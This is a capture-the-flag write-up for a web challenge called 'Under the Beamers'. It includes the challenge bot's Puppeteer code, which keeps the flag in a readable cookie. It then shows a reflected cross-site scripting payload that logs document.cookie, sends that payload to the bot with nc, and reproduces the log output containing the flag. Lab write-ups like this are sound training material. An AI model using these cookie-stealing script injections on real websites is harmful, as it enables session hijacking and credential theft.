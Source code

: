 # Under the Beamers

```
Clobbered or not clobbered, that's the question :)

See here: http://65.109.209.215:5000, the bot port is 4000!

Please download the attachment

Thanks to kevin-mizu as author! 😊
```

The attachment contains two parts, the first is a web server that renders html. The second is a bot that scrapes the web server with flag stored in cookie:

```js
// Force puppeteer to store everything to /tmp/
process.env.HOME = "/tmp";

const { delay, handleTargetCreated, handleTargetDestroyed, logMainInfo, logMainError } = require("./utils");
const puppeteer = require("puppeteer");

// Banner
const tips = ["Every console.log usage on the bot will be sent back to you :)", "There is a small race window (~10ms) when a new tab is opened where console.log won't return output :("];
console.log(`==========\nTips: ${tips[Math.floor(Math.random() * tips.length)]}\n==========`);

// Spawn the bot and navigate to the user provided link.
async function goto(html) {
	logMainInfo("Starting the browser...");
	const browser = await puppeteer.launch({
		headless: "new",
		ignoreHTTPSErrors: true,
		args: [
			"--no-sandbox",
			"--disable-gpu",
			"--disable-jit",
			"--disable-wasm",
			"--disable-dev-shm-usage",
		],
		executablePath: "/usr/bin/chromium-browser"
	});

	// Hook tabs events
	browser.on("targetcreated", handleTargetCreated.bind(browser));
	browser.on("targetdestroyed", handleTargetDestroyed.bind(browser));

	/* ** CHALLENGE LOGIC ** */
	const [page] = await browser.pages(); // Reuse the page created by the browser.
	await handleTargetCreated(page.target()); // Since it was created before the event listener was set, we need to hook it up manually.
	await page.setDefaultNavigationTimeout(5000);

	logMainInfo("Going to the app...");
	await browser.setCookie({
		name: "flag",
		value: process.env.FLAG,
		domain: "under-the-beamers-app.internal:5000",
		path: "/",
		httpOnly: false
	});

	logMainInfo("Going to the user provided link...");
	try { await page.goto(`http://under-the-beamers-app.internal:5000/?html=${encodeURIComponent(html)}`) } catch {}
	await delay(2000);

	logMainInfo("Leaving o/");
	await browser.close();
	return;
}

// Handle TCP data
process.stdin.on("data", (data) => {
	const html = data.toString().trim();

	if (!html || html.length > 500) {
		logMainError("You provided an invalid HTML. It should be a non empty string with a length of less than 500 characters.");
		process.exit(1);
	}

	goto(html)
	.then(() => process.exit(0))
	.catch((error) => {
		if (process.env.ENVIRONMENT === "development") {
			console.error(error);
		}
		process.exit(1);
	});
});
```

Inspired by <https://sec-consult.com/vulnerability-lab/advisory/reflected-cross-site-scripting-xss-in-codebeamer-alm-solution-by-ptc/>, we can inject arbitrary script into the rendered HTML:

```
<html><script>alert("abc");</script></html>
```

Visit <http://65.109.209.215:5000/> and write the html above in the text area, and you will see the popup.

Then, we ask the bot to print out the cookie for us:

```shell
$ echo '<html><script>console.log(document.cookie);</script></html>' | nc 65.109.209.215 4000
==========
Tips: Every console.log usage on the bot will be sent back to you :)
==========

Starting the browser...
[T1]> New tab created!
[T1]> navigating        | about:blank

Going to the app...

Going to the user provided link...
[T1]> navigating        | http://under-the-beamers-app.internal:5000/?html=%3Chtml%3E%3Cscript%3Econsole.log(document.cookie)%3B%3C%2Fscript%3E%3C%2Fhtml%3E
[T1]> console.log       | flag=ASIS{cfa4807db22fc60758d32ed0950a40e397c8f9c6a11ae89e8235d034f37f3987}
[T1]> console.error     | Failed to load resource: the server responded with a status of 404 (NOT FOUND)
[T1]> console.log       | Initializing Beamer. [Update and engage users effortlessly - https://getbeamer.com]
[T1]> console.error     | Failed to load resource: the server responded with a status of 404 (NOT FOUND)
```

Flag: `ASIS{cfa4807db22fc60758d32ed0950a40e397c8f9c6a11ae89e8235d034f37f3987}`.
